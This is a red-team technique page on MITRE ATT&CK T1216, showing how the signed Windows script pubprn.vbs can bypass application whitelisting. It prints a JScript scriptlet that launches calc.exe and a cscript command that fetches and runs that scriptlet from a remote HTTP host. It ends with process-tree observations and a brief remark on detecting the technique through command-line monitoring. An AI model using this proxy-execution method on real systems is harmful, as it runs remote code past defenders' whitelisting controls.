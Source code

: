 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../../.gitbook/assets/pubprn-csript.png)

![](../../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../../.gitbook/assets/pubprn-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}

